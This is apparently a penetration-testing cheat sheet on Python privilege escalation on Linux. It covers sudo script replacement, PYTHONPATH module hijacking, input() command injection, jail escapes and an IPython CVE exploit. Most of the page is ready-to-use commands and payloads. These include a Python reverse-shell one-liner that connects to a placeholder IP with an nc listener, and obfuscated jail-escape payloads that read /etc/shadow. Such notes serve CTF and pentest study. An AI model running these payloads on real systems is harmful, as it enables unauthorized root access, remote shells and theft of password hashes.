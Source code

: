 ```yaml
---
title: Python Privilege Escalation
description: 
tags:
    - Privilege Escalation
refs:
    - https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/
    - https://dspyt.com/how-to-python-jail-escape-newbie-ctf-2019
date: 2023-03-07
draft: false
---
```


## Sudo PrivEsc

### Replace with Arbitrary Script

```bash
sudo -l

(root) NOPASSWD: /usr/bin/python3 /home/<username>/example.py
```

If we can execute a Python script as root but cannot set env and cannot modify the script, we might be able to remove this script then create the new one.

```bash
rm -rf /home/<username>/example.py
touch /home/<username>/example.py
```

We can insert arbitrary code in this script. For example,

```python
import os;os.system('/bin/bash')
```

### Module Hijacking

Assume the python script can be executed as root with **SETENV,NOPASSWD**.  
For example,

```sh
sudo -l

(root) SETENV: NOPASSWD: /usr/bin/python3 /opt/example.py
```

With **SETENV**, we can change **PYTHONPATH** when executing the script, and insert malicious script to the module which is imported in the script.  
First off, check what module is imported in the python script (e.g. /opt/example.py here).

```python
import random

print(random.randint(1, 8))
```

We can forge the imported module.

```sh
vim /tmp/random.py
```

The content of the module is below. This is a script that executes reverse shell.  
Replace **`<local-ip>`** with your local ip address.

```sh
import socket,os,pty;s=socket.socket();s.connect(("<local-ip>",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")
```

After that, in another local terminal, start listener for getting a shell.

```sh
nc -lvnp 4444
```

Then run the python script with updating **PYTHONPATH** in the remote machine.

```sh
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/example.py
```

By setting **"PYTHONPATH=/tmp/"**, the python script will import modules from **/tmp/** directories so the **"random"** module is imported from **/tmp/random.py**.  
Finally, we should get a shell in local terminal.

<br />

## OS Commands in input()

If you find the executable which is created in Python.  
For instance,

```sh
./executable

Enter some input:
```

You can enter OS commands in some input.

```py
__import__('os').system('id')
```

For example,

```sh
./executable

Enter some input: __import__('os').system('id')
```

<br />

## Python Jails Escape

If we faced the Python script as follow, we cannot use common modules used for escalating privileges (**’os’, ‘system’, etc.**).  
It appeared in N-CTF 2019.

```python
#! /usr/bin/python3
def main():
	text = input(‘>> ‘)
	for keyword in [‘eval’, ‘exec’, ‘import’, ‘open’, ‘os’, ‘read’, ‘system’, ‘write’]:
		if keyword in text:
		print(“No!!!”)
		return;
		else:
		exec(text)

if __name__ == “__main__”:
	main()
```

We need to modify module names to allow us to execute them.  
[This post](https://dspyt.com/how-to-python-jail-escape-newbie-ctf-2019) explains in details.

### Payloads

```python
print(getattr(getattr(globals()['__builtins__'], '__im'+'port__')('o'+'s'), 'sys'+'tem')('cat /etc/shadow'))

__builtins__.__dict__[‘__IMPORT__’.lower()](‘OS’.lower()).__dict__[‘SYSTEM’.lower()](‘cat /etc/shadow’)
```

<br />

## IPython Privilege Escalation ([CVE-2022-21699](https://github.com/advisories/GHSA-pq7m-3gw7-gq5x))

Interective Python (IPython) is a command shell for interective computing in multiple programming languages.

```sh
# -m: file mode (rwx)
mkdir -m 777 /tmp/profile_default
mkdir -m 777 /tmp/profile_default/startup
echo 'print("stealing your private secrets")' > /tmp/profile_default/startup/exploit.py
```